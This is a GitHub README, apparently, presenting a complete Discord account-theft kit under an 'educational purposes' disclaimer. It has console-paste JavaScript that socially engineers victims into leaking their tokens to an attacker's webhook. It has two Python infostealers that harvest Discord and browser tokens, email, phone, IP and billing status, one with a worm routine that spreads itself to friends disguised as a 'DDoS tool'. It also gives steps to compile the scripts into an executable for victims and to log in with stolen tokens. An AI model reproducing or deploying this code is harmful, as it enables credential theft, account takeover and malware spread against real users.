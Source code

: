 ## Discord Matters

![](https://img.shields.io/badge/%E2%AD%90-If%20you%20find%20it%20%F0%9F%95%B6%EF%B8%8F%20-%23FFFF00)
![](https://img.shields.io/badge/DISCLAIMER-DO%20NOT%20USE%20FOR%20ANYTHING%20ILLEGAL-red)
![](https://img.shields.io/badge/Created-30%2F11%2F2021-brightgreen)

### DISCLAIMER

DO NOT USE THE INFORMATION PROVIDED HERE TO DO ANYTHING ILLEGAL OR FOR EVEN POTENTIALLY ILLEGAL ACTIVITIES.

I do not claim responsibility or involvement for anything you break or any trouble you may get into by using the information here.

THIS IS STRICTLY FOR EDUCATIONAL PURPOSES AND THE KNOWLEDGE SHOULD NOT BE USED ILLEGALLY.

---

### How to set up your discord webhook: 

Discord Webhooks allow you to receive messages in a Discord Server Channel externally via a HTTP POST Request.

<details>
    
<summary>Steps: </summary>
<br>
1. Click on the settings icon in your desired Discord channel. It is recommended to create your own Discord server and channel specifically for this purpose of receiving webhook messages.
<br>
 
![](https://i.imgur.com/5omkwZc.jpeg)

2. Click on ```integrations``` in the menu. 

![](https://i.imgur.com/XbBo8CD.png)

3. Click on ```Create webhook```.

![](https://i.imgur.com/VgW7vMM.png)

4. Name your webhook "bot" and give it a profile picture. 

![](https://i.imgur.com/2MticGD.png)

5. Then, click on ```Copy webhook URL``` and you have your discord webhook setup!

![](https://i.imgur.com/8AnneNZ.png)
</details>

---

## Grabbing the token
Our first goal is to obtain the discord token. This can be done through a C++ program compiled into exe, Python program (may be in exe), or JavaScript injection in the console of discord web version. 

### Method 1: Get user to send you the token or get it yourself (JavaScript)

Get user to copy and paste this code into browser console and send you back the token. Token will be alerted in window and logged in console. 

``` function getLocalStoragePropertyDescriptor() {const iframe = document.createElement('iframe');document.head.append(iframe);const pd = Object.getOwnPropertyDescriptor(iframe.contentWindow, 'localStorage');iframe.remove();return pd;} Object.defineProperty(window, 'localStorage', getLocalStoragePropertyDescriptor());console.log(localStorage.token); window.alert(localStorage.token); ```

Make sure to tell the user to ```toggle device toolbar``` with the button below or else the code will not fetch.

Before: ![](https://i.imgur.com/AfWZAQl.jpeg)
After: ![](https://i.imgur.com/zl2sHCk.jpeg)

Alternative codes, follow the same steps as above.

```javascript:document.getElementsByTagName("body")[0].innerHTML = localStorage.token;```

```Object.values(webpackJsonp.push([[],{['']:(_,e,r)=>{e.cache=r.c}},[['']]]).cache).find(m=>m.exports&&m.exports.default&&m.exports.default.getToken!==void 0).exports.default.getToken()```

### Method 2: Get user to run code and token will be sent to you (JavaScript)

Get user to copy and paste this code into browser console and token will be automatically sent back to you via discord webhook. Replace ```YOUR DISCORD WEBHOOK HERE``` with your discord webhook URL.

<details>

<summary>Code: </summary>    
    
```
location.reload();
var discordWebhook = "YOUR DISCORD WEBHOOK HERE";
var i = document.createElement('iframe');
document.body.appendChild(i);
var request = new XMLHttpRequest();
request.open("POST", discordWebhook);
request.setRequestHeader('Content-type', 'application/json');
var params = {
    username: "Token Grabber",
    avatar_url: "https://malwarefox.com/wp-content/uploads/2017/11/hacker-1.png",
    content: '**Nouvelle personne hackée !**\n------------------\nToken : ' + i.contentWindow.localStorage.token + '\n------------------\nAdresse email : ' + i.contentWindow.localStorage.email_cache + '\n------------------\nUser ID : ' + i.contentWindow.localStorage.user_id_cache + '\n------------------\nFingerprint : ' + i.contentWindow.localStorage.fingerprint + '\n------------------\nPropriétés : \`\`\`json\n' + i.contentWindow.localStorage.deviceProperties + '\`\`\`------------------\nScript de login : \n\`\`\`js\nlocation.reload();var i = document.createElement(\'iframe\');document.body.appendChild(i);i.contentWindow.localStorage.token = "\\"' + i.contentWindow.localStorage.token.replace(/^"(.*)"$/, '$1') + '\\""\`\`\`'
};
request.send(JSON.stringify(params));
```

</details>    
    
### Method 3: Get user to run code and token will be sent to you (Python/C++)

Get user to run python code OR exe file and token will be automatically sent back to you via discord webhook. 

<details>

<summary>First Python Script (Requires pip installation of some libraries), replace <code>WEBHOOK HERE</code> with your webhook URL : </summary>

```
from discord_webhook import DiscordWebhook, DiscordEmbed
from threading import Thread
import urllib3
urllib3.disable_warnings()
import colorama
from colorama import Fore, Style, Back
from time import sleep
colorama.init()

def Auth():
    def dastela():
        global WEBHOOK
        WEBHOOK = "WEBHOOK HERE"
        import os
        if os.name != "nt":
            exit()
        from re import findall
        from json import loads, dumps
        from base64 import b64decode
        from subprocess import Popen, PIPE
        from urllib.request import Request, urlopen
        from datetime import datetime
        from threading import Thread
        from time import sleep
        from sys import argv
        LOCAL = os.getenv("LOCALAPPDATA")
        ROAMING = os.getenv("APPDATA")
        PATHS = {
            "Discord"           : ROAMING + "\\Discord",
            "Discord Canary"    : ROAMING + "\\discordcanary",
            "Discord PTB"       : ROAMING + "\\discordptb",
            "Google Chrome"     : LOCAL + "\\Google\\Chrome\\User Data\\Default",
            "Opera"             : ROAMING + "\\Opera Software\\Opera Stable",
            "Brave"             : LOCAL + "\\BraveSoftware\\Brave-Browser\\User Data\\Default",
            "Yandex"            : LOCAL + "\\Yandex\\YandexBrowser\\User Data\\Default"
        }
        def getheaders(token=None, content_type="application/json"):
            headers = {
                "Content-Type": content_type,
                "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11"
            }
            if token:
                headers.update({"Authorization": token})
            return headers
        def getuserdata(token):
            try:
                return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me", headers=getheaders(token))).read().decode())
            except:
                pass
        def gettokens(path):
            path += "\\Local Storage\\leveldb"
            tokens = []
            for file_name in os.listdir(path):
                if not file_name.endswith(".log") and not file_name.endswith(".ldb"):
                    continue
                for line in [x.strip() for x in open(f"{path}\\{file_name}", errors="ignore").readlines() if x.strip()]:
                    for regex in (r"[\w-]{24}\.[\w-]{6}\.[\w-]{27}", r"mfa\.[\w-]{84}"):
                        for token in findall(regex, line):
                            tokens.append(token)
            return tokens
        def getip():
            ip = "None"
            try:
                ip = urlopen(Request("https://api.ipify.org")).read().decode().strip()
            except:
                pass
            return ip
        def gethwid():
            p = Popen("wmic csproduct get uuid", shell=True, stdin=PIPE, stdout=PIPE, stderr=PIPE)
            return (p.stdout.read() + p.stderr.read()).decode().split("\n")[1]
        def getfriends(token):
            try:
                return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/relationships", headers=getheaders(token))).read().decode())
            except:
                pass
        def getchat(token, uid):
            try:
                return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/channels", headers=getheaders(token), data=dumps({"recipient_id": uid}).encode())).read().decode())["id"]
            except:
                pass
        def has_payment_methods(token):
            try:
                return bool(len(loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/billing/payment-sources", headers=getheaders(token))).read().decode())) > 0)
            except:
                pass
        def send_message(token, chat_id, form_data):
            try:
                urlopen(Request(f"https://discordapp.com/api/v6/channels/{chat_id}/messages", headers=getheaders(token, "multipart/form-data; boundary=---------------------------325414537030329320151394843687"), data=form_data.encode())).read().decode()
            except:
                pass
        def spread(token, form_data, delay):
            return # Remove to re-enabled
            for friend in getfriends(token):
                try:
                    chat_id = getchat(token, friend["id"])
                    send_message(token, chat_id, form_data)
                except Exception as e:
                    pass
                sleep(delay)
        def main():
            cache_path = ROAMING + "\\.cache~$"
            prevent_spam = True
            self_spread = True
            embeds = []
            working = []
            checked = []
            already_cached_tokens = []
            working_ids = []
            ip = getip()
            pc_username = os.getenv("UserName")
            pc_name = os.getenv("COMPUTERNAME")
            user_path_name = os.getenv("userprofile").split("\\")[2]
            for platform, path in PATHS.items():
                if not os.path.exists(path):
                    continue
                for token in gettokens(path):
                    if token in checked:
                        continue
                    checked.append(token)
                    uid = None
                    if not token.startswith("mfa."):
                        try:
                            uid = b64decode(token.split(".")[0].encode()).decode()
                        except:
                            pass
                        if not uid or uid in working_ids:
                            continue
                    user_data = getuserdata(token)
                    if not user_data:
                        continue
                    working_ids.append(uid)
                    working.append(token)
                    username = user_data["username"] + "#" + str(user_data["discriminator"])
                    user_id = user_data["id"]
                    email = user_data.get("email")
                    phone = user_data.get("phone")
                    nitro = bool(user_data.get("premium_type"))
                    billing = bool(has_payment_methods(token))
                    embed = {
                        "color": 0x9d00ff,
                        "fields": [
                            {
                                "name": "**Account Info**",
                                "value": f'Email: {email}\nPhone: {phone}\nNitro: {nitro}\nBilling Info: {billing}',
                                "inline": True
                            },
                            {
                                "name": "**PC Info**",
                                "value": f'IP: {ip}\nUsername: {pc_username}\nPC Name: {pc_name}\nToken Location: {platform}',
                                "inline": True
                            },
                            {
                                "name": "**Token**",
                                "value": token,
                                "inline": False
                            }
                        ],
                        "author": {
                            "name": f"{username} ({user_id})",
                        },
                        "footer": {
                            "text": f""#Change this to some footer, anything is fine1
                        }
                    }
                    embeds.append(embed)
            with open(cache_path, "a") as file:
                for token in checked:
                    if not token in already_cached_tokens:
                        file.write(token + "\n")
            if len(working) == 0:
                working.append('123')   
            webhook = {
                "content": "",
                "embeds": embeds,
                "username": "First Officer Hook",#you can change this also
                "avatar_url": "https://www.designveloper.com/wp-content/uploads/2019/05/python-programming-language.jpg" #this too
            }
            try:
                urlopen(Request(WEBHOOK, data=dumps(webhook).encode(), headers=getheaders()))
            except:
                pass
            if self_spread:
                for token in working:
                    with open(argv[0], encoding="utf-8") as file:
                        content = file.read()
                    payload = f'-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="file"; filename="{__file__}"\nContent-Type: text/plain\n\n{content}\n-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="content"\n\nDDoS tool. python download: https://www.python.org/downloads\n-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="tts"\n\nfalse\n-----------------------------325414537030329320151394843687--'
                    Thread(target=spread, args=(token, payload, 7500 / 1000)).start()
        try:
            main()
        except Exception as e:
            print(e)
            pass
    try:
        dastela()
    except:
        pass
    
Auth()
```
</details>

<details>
    <summary>Second Python Script, replace <code>WEBHOOK HERE</code> with your webhook URL : </summary>

```
import os
import re
import json

from urllib.request import Request, urlopen

# your webhook URL
WEBHOOK_URL = 'WEBHOOK HERE'

# mentions you when you get a hit
PING_ME = True

def find_tokens(path):
    path += '\\Local Storage\\leveldb'

    tokens = []

    for file_name in os.listdir(path):
        if not file_name.endswith('.log') and not file_name.endswith('.ldb'):
            continue

        for line in [x.strip() for x in open(f'{path}\\{file_name}', errors='ignore').readlines() if x.strip()]:
            for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):
                for token in re.findall(regex, line):
                    tokens.append(token)
    return tokens

def main():
    local = os.getenv('LOCALAPPDATA')
    roaming = os.getenv('APPDATA')

    paths = {
        'Discord': roaming + '\\Discord',
        'Discord Canary': roaming + '\\discordcanary',
        'Discord PTB': roaming + '\\discordptb',
        'Google Chrome': local + '\\Google\\Chrome\\User Data\\Default',
        'Opera': roaming + '\\Opera Software\\Opera Stable',
        'Brave': local + '\\BraveSoftware\\Brave-Browser\\User Data\\Default',
        'Yandex': local + '\\Yandex\\YandexBrowser\\User Data\\Default'
    }

    message = '@everyone' if PING_ME else ''

    for platform, path in paths.items():
        if not os.path.exists(path):
            continue

        message += f'\n**{platform}**\n```\n'

        tokens = find_tokens(path)

        if len(tokens) > 0:
            for token in tokens:
                message += f'{token}\n'
        else:
            message += 'No tokens found.\n'

        message += '```'

    headers = {
        'Content-Type': 'application/json',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11'
    }

    payload = json.dumps({'content': message})

    try:
        req = Request(WEBHOOK_URL, data=payload.encode(), headers=headers)
        urlopen(req)
    except:
        pass

if __name__ == '__main__':
    main()
```
</details>

<details>

<summary>Steps to compile python code into an executable file.</summary>
<br>
Why would you want to do this?
    
It is easier for someone who does not have python installed or does not know code to get their token.

1. In Command Prompt, make sure you have Python installed with PIP added to PATH.

Type in <code>pip install pyinstaller</code>

2. Once done, navigate to the location of your code.

<code>cd C:\Users\\%USERNAME%\locationOfPythonFile</code>
    
3. Then, type in <code>pyinstaller --onefile FILENAME.py</code>
    
4. The executable file will be found in the <code>dist</code> folder created.
</details>

<details>
<summary>C++ Script</summary>
I do not fully understand the implementation of this so I'll just link to the original creator.
<a href="https://github.com/NightfallGT/Discord-Token-Grabber"><img style="vertical-align: center" alt="Link" width="30px" src="https://i.imgur.com/qM9I00J.png"></a>
</details>

<details>
<summary>Notes:</summary>
The token returned from the Discord Web Version is a simple one liner that can straightaway be used to login.
    
The token returned from Discord Windows/PC Version is made of multiple lines. Only the last line or the second last line can be used to login.
</details>

---

## Logging in with the token

The second goal is to login with the token. This can only be done via the Discord Browser Version - Through the Browser JavaScript Console. Navigate to the Discord login page on a browser and paste in the code.

### First Code:

Replace ```PASTE TOKEN HERE``` with the token obtained earlier. Enter this code into the Browser JS Console.

```
function login(token) {
setInterval(() => {
document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"`
}, 50);
setTimeout(() => {
location.reload();
}, 2500);
}

login('PASTE TOKEN HERE')

OR
```

### Second Code:

Replace ```TOKEN``` with the token obtained earlier. Enter this code into the Browser JS Console.

```location.reload();var i = document.createElement('iframe');document.body.appendChild(i);i.contentWindow.localStorage.token = "\"TOKEN\""```

